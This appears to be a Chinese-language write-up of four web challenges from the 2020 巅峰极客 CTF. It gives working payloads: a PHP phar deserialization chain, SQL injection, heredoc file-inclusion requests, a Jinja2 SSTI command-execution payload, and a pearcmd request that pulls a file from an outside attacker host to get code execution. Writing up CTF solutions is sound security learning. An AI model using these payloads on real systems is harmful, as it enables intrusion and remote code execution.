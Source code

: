# 巅峰极客2020

## babyphp2

文件包含：http://eci-2ze5jqyhfniloont8y3x.cloudeci1.ichunqiu.com/index.php?action=../../../../../../../../../../../var/www/html/login
登入接口ban掉：
```
`,\,@,%,#
```
```
[11:00:52] 200 -   68B  - /index.php
[11:00:53] 200 -   68B  - /index.php/login/
[11:01:33] 200 -  583B  - /login.php
[11:03:57] 403 -  335B  - /server-status
[11:04:19] 403 -  336B  - /server-status/
[11:05:21] 200 -  422B  - /upload.php
[11:05:22] 403 -  329B  - /upload/
[11:05:41] 301 -  383B  - /upload  ->  http://eci-2ze5jqyhfniloont8y3x.cloudeci1.ichunqiu.com/upload/
[11:06:20] 200 -    4KB - /www.zip
```

构造反序列化链：`dbCtrl::__destruct->User::__toString->Reader::__set`

```php
<?php

Class Reader{
    public $filename;
    public $result;
    public function __construct(){

    }

}

class User
{
    public $id;
    public $age=null;
    public $nickname=null;
    public $backup;
    public function __construct(){
        $this->backup="/flag";
        $this->nickname=new Reader();
    }
}
class dbCtrl
{
    public $hostname="127.0.0.1";
    public $dbuser="p3rh4ps";
    public $dbpass="p3rh4ps";
    public $database="p3rh4ps";
    public $name;
    public $password;
    public $mysqli;
    public $token;
    public function __construct(){
        $this->token=new User();
    }
}

$a = new dbCtrl();
@unlink("phar.phar");
$phar = new Phar("phar.phar"); //后缀名必须为phar,phar伪协议不用phar后缀
$phar->startBuffering();
$phar->setStub("<?php __HALT_COMPILER(); ?>"); //设置stub,只要后面部分为__HALT_COMPILER(); 
$phar->setMetadata($a); //将自定义的meta-data存入manifest
$phar->addFromString("test.txt", "test"); //添加要压缩的文件
//签名自动计算
$phar->stopBuffering();

```


compress.zlib://phar://phar.phar/test.txt绕过限制



##  babyback

php:5.6.40



robots.txt



```
User-agent: *
Disallow: /admin
```

```
[12:31:50] 200 -   38B  - /admin/
[12:31:50] 200 -   38B  - /admin/?/login
[12:31:50] 200 -   38B  - /admin/index.php
[12:31:57] 200 -   48B  - /check.php
[12:32:13] 200 -   33B  - /robots.txt
[12:41:07] 200 -   29B  - /admin/.bowerrc
[12:41:26] 301 -  185B  - /admin/assets  ->  http://eci-2ze91js64coeqpjda9u8.cloudeci1.ichunqiu.com/admin/assets/
[12:41:28] 200 -    1KB - /admin/bower.json
[12:41:38] 301 -  185B  - /admin/images  ->  http://eci-2ze91js64coeqpjda9u8.cloudeci1.ichunqiu.com/admin/images/
[12:41:39] 200 -   38B  - /admin/index.php
[12:41:57] 200 -  620B  - /admin/package.json
```
check.php 过滤了： `",',-,=,;,select`

`username=aaaa\&password= /sleep(5)%23bbbb`存在sql注入

```
账号密码
admin
uAreRigHt
```
>代码不能包含打开/关闭 PHP tags。比如， 'echo "Hi!";' 不能这样传入： '<?php echo "Hi!"; ?>'。但仍然可以用合适的 PHP tag 来离开、重新进入 PHP 模式。比如 'echo "In PHP mode!"; ?>In HTML mode!<?php echo "Back in PHP mode!";'。 

```
EVAL($COMMAND."=FALSE");
过滤：;,",', ,|,`,^,\,;,/,*,(,),&,$,#,f,F
```

任意文件包含：
```
POST /admin/ HTTP/1.1
Host: eci-2ze3ccxvzrnduzhd4u54.cloudeci1.ichunqiu.com
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://eci-2ze3ccxvzrnduzhd4u54.cloudeci1.ichunqiu.com
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/85.0.4183.121 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://eci-2ze3ccxvzrnduzhd4u54.cloudeci1.ichunqiu.com/admin/index.php
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: chkphone=acWxNpxhQpDiAchhNuSnEqyiQuDIO0O0O; Hm_lvt_2d0601bd28de7d49818249cf35d95943=1600698604,1601088882; UM_distinctid=174b11256cb2fd-030f86f83a6db3-333769-240000-174b11256cd6f1; Hm_lpvt_2d0601bd28de7d49818249cf35d95943=1601100971; PHPSESSID=aabua1gfiqc9s8i13u3iqace72; __jsluid_h=89eac162499bc32092c0474accd770c5
Connection: close
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryrD05yt5m
Content-Length: 161

------WebKitFormBoundaryrD05yt5m
Content-Disposition: form-data; name="command"

?><?=include<<<DDDD
.bowerrc
DDDD
?>
------WebKitFormBoundaryrD05yt5m--

```

读取flag
```
POST /admin/ HTTP/1.1
Host: eci-2ze3ccxvzrnduzhd4u54.cloudeci1.ichunqiu.com
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://eci-2ze3ccxvzrnduzhd4u54.cloudeci1.ichunqiu.com
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/85.0.4183.121 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://eci-2ze3ccxvzrnduzhd4u54.cloudeci1.ichunqiu.com/admin/index.php
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: chkphone=acWxNpxhQpDiAchhNuSnEqyiQuDIO0O0O; Hm_lvt_2d0601bd28de7d49818249cf35d95943=1600698604,1601088882; UM_distinctid=174b11256cb2fd-030f86f83a6db3-333769-240000-174b11256cd6f1; Hm_lpvt_2d0601bd28de7d49818249cf35d95943=1601100971; PHPSESSID=aabua1gfiqc9s8i13u3iqace72; __jsluid_h=89eac162499bc32092c0474accd770c5
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 89

command=%3f%3e%3c%3f%3dinclude%7e%3c%3c%3cDDDD%0d%0a%D0%99%93%9E%98%0d%0aDDDD%0d%0a%3f%3e
```

## babyflask

GET /loged?name=%7B%7B2*2%7D%7D
存在SSTI
模板引擎jinja2


```http://eci-2ze3domag0jprtzax0lx.cloudeci1.ichunqiu.com:8888/loged?name={%%20for%20c%20in%20[].__class__.__base__.__subclasses__()%20%}{%%20if%20c.__name__==%27_IterationGuard%27%20%}{{%20c.__init__.__globals__[%27__builtins__%27][%27eval%27](%22__import__(%27os%27).popen(%27cat%20/flag%27).read()%22)%20}}{%%20endif%20%}{%%20endfor%20%}```

拿flag



## MeowWorld

任意文件读取

hint:register_argc_argv

```
register_argc_argv	TRUE	
由于该设置为 TRUE，将总是可以在 CLI SAPI 中访问到 argc（传送给应用程序参数的个数）和 argv（包含有实际参数的数组）。

对于 PHP 4.3.0，在使用 CLI SAPI 时，PHP 变量 $argc 和 $argv 已被注册并且设定了对应的值。而在这之前的版本，这两个变量在 CGI 或者 模块 版本中的建立依赖于将 PHP 的设置选项 register_globals 设为 on。除了版本和 register_globals 设定以外，可以随时通过调用 $_SERVER 或者 $HTTP_SERVER_VARS 来访问它们。例如：$_SERVER['argv']
```



https://khack40.info/camp-ctf-2015-trolol-web-write-up/

找到一个类似的题目，但是他们是用变量覆盖来执行

阅读pearcmd的代码发现：`if (!isset($_SERVER['argv']) && !isset($argv) && !isset($HTTP_SERVER_VARS['argv']))`

![](https://raw.githubusercontent.com/Explorersss/photo/master/20200926190107.png)

```
http://eci-2zeguuukox00jv0u113l.cloudeci1.ichunqiu.com/?list+install+--installroot+/tmp/+http://ccreater.top:60006/install.php++++++++++++++$&f=pearcmd&
```

后面多余部分并不影响我们下载恶意文件





`http://eci-2zeguuukox00jv0u113l.cloudeci1.ichunqiu.com/?f=/tmp/tmp/pear/download/install`

任意命令执行